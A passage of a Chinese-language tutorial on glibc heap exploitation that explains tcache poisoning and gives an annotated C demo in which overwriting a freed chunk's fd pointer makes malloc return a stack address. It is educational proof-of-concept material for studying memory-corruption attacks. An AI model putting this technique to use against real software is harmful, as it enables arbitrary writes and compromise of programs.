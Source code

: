 这个时候我们再申请两次chunk就可以将两次的chunk a全部拿出来了



## tcache_poisoning

### <a class="reference-link" name="%E5%BA%8F"></a>序

对于tcache来说，我们不需要像fastbin那样伪造一个size符合要求的地址来任意malloc，我们只需要直接覆盖fd指针就可以了

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdint.h&gt;

int main()
{
    //此demo的效果就是返回一个指向任意地址的指针，与fastbin corruption攻击极其相似（本例返回的地址是一个栈地址）
    fprintf(stderr, "This file demonstrates a simple tcache poisoning attack by tricking malloc inton"
           "returning a pointer to an arbitrary location (in this case, the stack).n"
           "The attack is very similar to fastbin corruption attack.nn");

    size_t stack_var;
    //我们想要返回的地址是stack_var
    fprintf(stderr, "The address we want malloc() to return is %p.n", (char *)&amp;stack_var);

    fprintf(stderr, "Allocating 1 buffer.n");
    intptr_t *a = malloc(128);
    fprintf(stderr, "malloc(128): %pn", a);
    fprintf(stderr, "Freeing the buffer...n");
    free(a);

    fprintf(stderr, "Now the tcache list has [ %p ].n", a);
    //我们通过覆写第一个chunk的fd指针，使其指向我们的栈地址
    fprintf(stderr, "We overwrite the first %lu bytes (fd/next pointer) of the data at %pn"
        "to point to the location to control (%p).n", sizeof(intptr_t), a, &amp;stack_var);
    a[0] = (intptr_t)&amp;stack_var;

    fprintf(stderr, "1st malloc(128): %pn", malloc(128));
    fprintf(stderr, "Now the tcache list has [ %p ].n", &amp;stack_var);

    intptr_t *b = malloc(128);
    fprintf(stderr, "2nd malloc(128): %pn", b);
    fprintf(stderr, "We got the controln");

    return 0;
}
```
